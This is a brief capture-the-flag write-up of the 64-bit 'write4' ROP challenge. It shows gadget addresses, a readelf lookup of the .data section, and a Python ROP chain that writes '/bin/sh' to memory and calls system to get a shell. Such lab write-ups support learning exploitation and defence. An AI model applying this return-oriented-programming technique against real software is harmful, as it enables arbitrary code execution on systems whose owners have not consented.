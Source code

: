 # write4 - 64bit

Once again, the 64bit version is the same concept to that of the 32bit exploit.

Searching for the same format gives us the gadgets below:
```
0x0000000000400890 : pop r14 ; pop r15 ; ret
0x0000000000400820 : mov qword ptr [r14], r15 ; ret
```

These will allow us to load a string into memory. Due to the 8 bit size of 64-bit pointers we can load "/bin/sh" into memory with a single call.

As with the `32-bit` version the data is being written to `.data` section.

```
$ readelf --sections write4 | grep .data
[25] .data             PROGBITS         0000000000601050  0000105
```

The final stage is loading the address of the string into the `rdi` register for the system call.

```
0x0000000000400893 : pop rdi ; ret
```

This, therefore, creates a ROP chain like so:

```python
payload = b""
payload += junk
payload += g_pop        # pop r14 ; pop r15 ; ret
payload += data_addr    
payload += command
payload += g_mov        # mov qword ptr [r14], r15 ; ret
payload += pop_rdi      # pop rdi ; ret
payload += data_addr    
payload += sys_addr
```